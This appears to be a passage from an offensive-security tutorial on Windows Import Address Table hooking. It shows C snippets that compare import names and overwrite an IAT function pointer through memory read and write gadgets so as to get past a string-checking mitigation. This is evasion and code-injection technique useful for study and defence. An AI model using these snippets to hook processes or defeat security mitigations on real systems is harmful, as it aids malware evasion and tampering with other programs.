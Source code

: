 ### HookIATFunction gadget version

First you need to parse IAT and loop through it. Once again this is well known and you can use any public made IAT lookup function. I used [this](https://www.ired.team/offensive-security/code-injection-process-injection/import-adress-table-iat-hooking) because it's one of the first things that I found.

I noticed that sometimes the pointer has some weird byte at the start - I am really not sure why is that, but would love to know.

So we just check the first byte if it's a null byte.
```c
short int first_byte = ((unsigned char *)(&functionName))[7];
if(first_byte == 0){
```

Only thing that we need to change now is the comparison function, cuz the mitigation checks the strings.
```c
int help_strcmp(const char *target, const char *source, char* gadget, int offset, char negative)
{

int i;

for (i = 0; source[i] == read_primitive_char(gadget, (char* )target + i, offset, negative); i++)

    if (source[i] == '\0')

        return 0;

return source[i] - read_primitive_char(gadget, (char* )target + i, offset, negative);
}
```

Essentially this function uses `read_primitive_char` as the way to access the byte. And in the IAT hooking we use it as the comparison function.
```c
if(help_strcmp(functionName->Name,func_name,read_gadget->Address,read_gadget->Offset,read_gadget->Negative) == 0){
.....
```

And finally the part that I did by accident:
```c
int old;
_VirtualProtect(&firstThunk->u1.Function,8,PAGE_READWRITE,&old);

//firstThunk->u1.Function = new_func_pointer;

write_primitive(write_gadget->Address,(char *)firstThunk + offsetof(IMAGE_THUNK_DATA,u1.Function),new_func_pointer);

_VirtualProtect(&firstThunk->u1.Function,8,old,&old);
```
*Here you can normally use the commented line, it should work as intended.
Also the last virtual protect might not be neccessary.*
